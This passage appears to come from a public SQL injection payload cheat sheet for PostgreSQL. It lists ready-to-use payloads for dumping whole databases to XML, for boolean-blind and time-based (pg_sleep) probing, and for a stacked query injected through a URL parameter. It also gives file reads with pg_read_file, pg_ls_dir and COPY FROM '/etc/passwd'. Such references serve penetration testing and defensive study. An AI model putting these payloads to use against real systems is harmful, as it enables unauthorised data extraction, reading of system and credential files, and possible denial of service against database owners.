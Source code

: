 ```text
select query_to_xml('select * from pg_user',true,true,''); -- returns all the results as a single xml row
```

The `query_to_xml` above returns all the results of the specified query as a single result. Chain this with the [PostgreSQL Error Based](https://github.com/Alomancy/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md#postgresql-error-based) technique to exfiltrate data without having to worry about `LIMIT`ing your query to one result.

```text
select database_to_xml(true,true,''); -- dump the current database to XML
select database_to_xmlschema(true,true,''); -- dump the current db to an XML schema
```

Note, with the above queries, the output needs to be assembled in memory. For larger databases, this might cause a slow down or denial of service condition.

## PostgreSQL Blind

```text
' and substr(version(),1,10) = 'PostgreSQL' and '1  -> OK
' and substr(version(),1,10) = 'PostgreXXX' and '1  -> KO
```

## PostgreSQL Time Based

```text
AND [RANDNUM]=(SELECT [RANDNUM] FROM PG_SLEEP([SLEEPTIME]))
AND [RANDNUM]=(SELECT COUNT(*) FROM GENERATE_SERIES(1,[SLEEPTIME]000000))
```

## PostgreSQL Stacked Query

Use a semi-colon ";" to add another query

```text
http://host/vuln.php?id=injection';create table NotSoSecure (data varchar(200));--
```

## PostgreSQL File Read

```text
select pg_ls_dir('./');
select pg_read_file('PG_VERSION', 0, 200);
```

NOTE: Earlier versions of Postgres did not accept absolute paths in `pg_read_file` or `pg_ls_dir`. Newer versions \(as of [this](https://github.com/postgres/postgres/commit/0fdc8495bff02684142a44ab3bc5b18a8ca1863a) commit\) will allow reading any file/filepath for super users or users in the `default_role_read_server_files` group.

```text
CREATE TABLE temp(t TEXT);
COPY temp FROM '/etc/passwd';
SELECT * FROM temp limit 1 offset 0;
```
